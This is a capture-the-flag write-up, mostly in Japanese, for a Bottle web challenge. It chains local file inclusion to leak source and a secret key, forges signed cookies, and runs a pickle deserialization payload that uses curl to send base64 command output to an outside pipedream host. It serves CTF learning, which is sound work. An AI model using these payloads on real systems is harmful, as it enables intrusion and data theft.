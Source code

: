 # Bottle Poem:Web:100pts
Come and read poems in the bottle.  
No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.  

[http://bottle-poem.ctf.sekai.team](http://bottle-poem.ctf.sekai.team/)  

# Solution
URLのみが渡される。  
アクセスすると、ポエムを読み取ることができるサイトのようだ。  
Sekai’s boooootttttttlllllllleeeee  
![site1.png](site/site1.png)  
ポエム表示ページのURLを見ると`http://bottle-poem.ctf.sekai.team/show?id=spring.txt`であった。  
LFIを狙い`/etc/passwd`を取得する。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
~~~
```
取得できたが、フラグファイルなどは読み取れない。  
ここで、動いているファイル名が`app.py`とGuessしてソースを取得してみる。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=../app.py
No!!!!
$ curl http://bottle-poem.ctf.sekai.team/show?id=../satoki.py
No This Poems
```
`No!!!!`と表示されるが、ファイルが存在しない場合の`No This Poems`とは挙動が異なる。  
ブラックリストで弾いていそうなのでバイパスを考える。  
よく知られた`/proc/self/cwd`を試す。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/app.py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```
無事ソースが得られた。  
`/sign`という隠された挙動が発見できる。  
[site2.png](site/site2.png)  
cookieに保存されているnameが`admin`になればよさそうだが、`secret=sekai`で署名されている。  
幸いなことに`from config.secret import sekai`とされているのでLFIで読んでやればよい。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/config/secret.py
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```
secretがわかったため、ソースと同じbottleを起動し、自身で署名してやればよい。  
test1.pyで行う。  
```python
from bottle import route, run, response

@route("/")
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret="Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu")
    return "Satoki"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8081)
```
cookieを取得する。  
```bash
$ curl http://localhost:8081 -I
HTTP/1.0 200 OK
Date: Sat, 01 Oct 2022 08:39:12 GMT
Server: WSGIServer/0.2 CPython/3.8.10
Content-Length: 6
Content-Type: text/html; charset=UTF-8
Set-Cookie: name="!rsOwvUb6jllVHQVOPlZv5w==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFYWRtaW6Uc4aULg=="
```
これを用いて、`/sign`にadminとしてアクセスするが、ページには何もない。  
[site3.png](site/site3.png)  
どうやらSSTIなどRCEを目指す必要がありそうだ。  
ここで、cookieがシリアライズされているような構成になっていることに気づき、pickleに知られるようなRCE手法を思い出す。  
以下のtest2.pyで行う(外部サーバでコマンド結果を待ち受けている)。  
```python
from bottle import route, run, response
import os

class Exploit:
    def __reduce__(self):
        # https://requestbin.com/
        cmd = ("curl https://enx660uw0g4oc.x.pipedream.net?s=`id|base64`")
        return os.system, (cmd,)

@route("/")
def index():
    session = Exploit()
    response.set_cookie("name", session, secret="Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu")
    return "Satoki"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8082)
```
cookieを取得する。  
```bash
$ curl http://localhost:8082 -I
HTTP/1.0 200 OK
Date: Sat, 01 Oct 2022 08:53:01 GMT
Server: WSGIServer/0.2 CPython/3.8.10
Content-Length: 6
Content-Type: text/html; charset=UTF-8
Set-Cookie: name="!t2jkZB3klceVVq26kRw3fA==?gAWVXAAAAAAAAACMBG5hbWWUjAVwb3NpeJSMBnN5c3RlbZSTlIw4Y3VybCBodHRwczovL2VueDY2MHV3MGc0b2MueC5waXBlZHJlYW0ubmV0P3M9YGlkfGJhc2U2NGCUhZRSlIaULg=="
```
取得したcookieを用いてアクセスすると、外部サーバに以下のリクエストが到達した。  
`/?s=dWlkPTY1NTM0KG5vYm9keSkgZ2lkPTY1NTM0KG5vZ3JvdXApIGdyb3Vwcz02NTUzNChub2dyb3Vw`  
デコードを行う。  
```bash
$ echo 'dWlkPTY1NTM0KG5vYm9keSkgZ2lkPTY1NTM0KG5vZ3JvdXApIGdyb3Vwcz02NTUzNChub2dyb3Vw' | base64 -d
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup
```
途中で切れているがRCEが達成できた。  
あとは逐一cookieを生成しコマンドを実行することで、不審なファイルを探索するだけである。  
以下にクエリ、外部サーバへのリクエスト、デコードした結果を示す。  
まず初めにlsを行う。  
```
?s=`ls|base64`

/?s=YXBwLnB5CmNvbmZpZwpwb2Vtcwp2aWV3cwo=

app.py
config
poems
views
```
何もなさそうなので一つ上を見てやる。  
```
?s=`ls ../|base64`

/?s=YXBwCmJpbgpib290CmRldgpldGMKZmxhZwpob21lCmxpYgpsaWI2NAptZWRpYQptbnQKb3B0CnBy

app
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
pr
```
flagなるものがあった(LFIでは読み取れない)。  
```
?s=`ls -al ../flag|base64`

/?s=LS0teC0teC0teCAxIHJvb3Qgcm9vdCA1NjggU2VwIDE1IDA2OjM3IC4uL2ZsYWcK

---x--x--x 1 root root 568 Sep 15 06:37 ../flag
```
権限から見るに、実行すればよさそうだ。  
```
?s=`../flag|base64`

/?s=U0VLQUl7VzNsY29tZV9Ub19PdXJfQm90dGxlfQo=

SEKAI{W3lcome_To_Our_Bottle}
```
flagが得られた。  

## SEKAI{W3lcome_To_Our_Bottle}